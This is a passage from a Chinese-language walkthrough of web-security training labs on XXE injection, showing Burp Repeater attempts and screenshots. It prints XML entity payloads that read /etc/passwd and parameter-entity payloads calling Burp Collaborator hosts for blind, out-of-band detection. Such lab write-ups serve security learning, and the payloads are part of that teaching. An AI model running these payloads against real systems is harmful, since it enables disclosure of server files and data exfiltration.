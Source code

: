 直接转到repeater模块构造payload尝试，先尝试读取文件：很明显，外部实体被禁用。payload如下：

```xml-dtd
<!DOCTYPE ANY [  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

![image-20221105210744411](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105210744411.png)

尝试进行Blind XXE，依然无果（其实上面的提示都说明了没办法用实体的，所以Blind XXE不行）。

```dtd
<!DOCTYPE ANY[ <!ENTITY content SYSTEM "http://gg0y………………10pp.burpcollaborator.net">]>
```

![image-20221105210916378](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105210916378.png)

键都点烂了还是没消息，在预料之内，不用等了。

![image-20221105211058859](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105211058859.png)

开始尝试参数实体，如下图发现相应包说解析出错。

```dtd
<!DOCTYPE foo[ <!ENTITY % xxe SYSTEM "http://dubsfef………………mlaq.burpcollaborator.net">]>
```

![image-20221105212023587](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105212023587.png)

去burp里看看，成功触发payload。

![image-20221105212049218](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221105212049218.png)

**通关成功！**

## Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

老规矩，先进入相应实验模块内：

![image-20221106192745348](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106192745348.png)

简单测一下，就可以发现外部实体被禁用：payload如下：

```dtd
<!DOCTYPE foo [  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

![image-20221106194144579](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106194144579.png)

尝试使用参数实体看看：payload如下：看响应包也不行。

```dtd
<!DOCTYPE foo[ <!ENTITY % xxe SYSTEM "http://lxmvmq2s0oih7991wcsmgxskgbm1aq.burpcollaborator.net.net">]>
```

![image-20221106194849241](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221106194849241.png)


[这里查看原理]: https://github.com/shungli923/WowBigBug/blob/main/%E5%9F%BA%E7%A1%80%E6%BC%8F%E6%B4%9E/XXE.md	"点击"